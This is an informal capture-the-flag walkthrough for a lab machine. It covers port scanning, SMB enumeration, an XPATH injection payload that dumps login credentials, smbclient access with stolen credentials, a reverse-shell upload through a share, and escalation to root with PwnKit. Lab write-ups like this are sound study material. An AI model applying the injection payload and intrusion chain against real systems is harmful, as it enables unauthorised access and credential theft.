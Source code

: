 Started with a nmap scan
```
139 smaba
445 smaba
8080 apache 2.4.29 ubuntu
8082 node.js 
```
Looking at the smb client there is some shares the normal ones but one is not normal `SECURED` but we can not access it with the guest account when I ran enum4linux it did find two users `
```
ArthurMorgan 
marston    This usernmae a guest account
```
Running a gobuster on the port `8080`
```
/dev
/dev/note.txt   Secure File upload and Testing Functionality
```
Running a gobuster on the port `8082`
```
/login
/static
```
The login page for this app in vulnerable to XPATH injection when we go `"` we get internal server error and running this injection `" or true() or "` returns a list of usernames and passwords 
```
Tove:Jani
Godzilla:KONG.....
SuperMan:sny...
ArthurMorgan:Dea...
```
Arthur account works to login into the smb server its the only one and now lets login into the smb server and see what's in there with this command we can connect to it
`smbclient //10.10.36.96/SECURED -u ArthurMorgan -p Dea....` and there is one file `note.txt` so what we can try to do is upload a rev shell to this since we can view it in the web browser and we get a call back as `www-data` and we can go into Arthur home folder now that were in we can just su to Arthur with his password and now were him and we can get root with PwnKit or sudo barren